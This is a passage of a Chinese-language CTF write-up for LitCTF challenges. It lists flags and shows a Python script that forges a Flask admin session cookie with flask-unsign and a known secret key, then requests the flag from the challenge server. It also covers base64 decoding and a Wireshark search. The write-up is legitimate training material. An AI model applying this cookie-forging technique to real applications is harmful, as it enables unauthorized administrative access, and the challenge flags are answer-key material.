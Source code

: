 ![](https://s2.loli.net/2024/03/07/1bqt8ipGhjQLyIf.png)

**LitCTF{g1thub_c0mmit_1s_s0_us3ful}**

### Flag 点击就送！

伪造 session



密钥：'LitCTF'
工具：**flask-unsign **

脚本：

```python
import requests
import string
import subprocess

SECRET_KEY = "LitCTF"

cmd_out = subprocess.check_output(['flask-unsign', '--sign', '--cookie', '{\'name\': \'admin\'}', '--secret', SECRET_KEY])

cookie = {'session' : cmd_out.decode().rstrip()}
response = requests.get('http://node5.anna.nssctf.cn:28403/flag', cookies=cookie)

print(response.text)
```

![](https://s2.loli.net/2024/03/07/pn9yrhMD2tN8fgo.png)

**NSSCTF{d971096e-fa62-43a7-be60-70acbd180d12}**

## misc


### What_1s_BASE

base64

![](https://s2.loli.net/2024/03/07/1EsHaVCe2hPdpnk.png)

![](https://s2.loli.net/2024/03/07/qA549EdcaQBPsFN.png)

**LitCTF{KFC_Cr4zy_Thur3day_V_me_50}**


### Take me hand

流量分析

**wireshark打开，Ctrl+F 按图示设置搜索flag**

![](https://s2.loli.net/2024/03/07/H5xoG6R8eXbnUBr.png)
